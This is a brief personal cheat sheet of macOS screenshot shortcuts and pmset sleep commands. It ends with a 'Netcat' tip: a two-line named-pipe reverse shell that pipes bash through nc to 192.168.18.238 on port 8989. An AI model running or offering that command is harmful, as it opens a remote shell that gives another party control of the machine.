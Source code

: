 # Screenshots
## OS X
- Command-Shift-3: Full screen to desktop
- Command-Shift-4, select an area: Area to desktop
- Command-Shift-4, space, click a window: Window to desktop
- Command-Control-Shift-3: Full screen to clipboard
- Command-Control-Shift-4, select an area: Area to clipboard
- Command-Control-Shift-4, space, click a window: Window to clipboard

# OS X Power Saving
- Temporarily turn off sleep: *sudo pmset noidle*
- Turn off sleep: *sudo pmset sleep 0*
- Sleep after 15 minutes: *sudo pmset sleep 15*

# Netcat
- When -e flag does not exist:
```
mknod /tmp/datapipe p
/bin/bash 0</tmp/datapipe |nc 192.168.18.238 8989 1>/tmp/datapipe
```

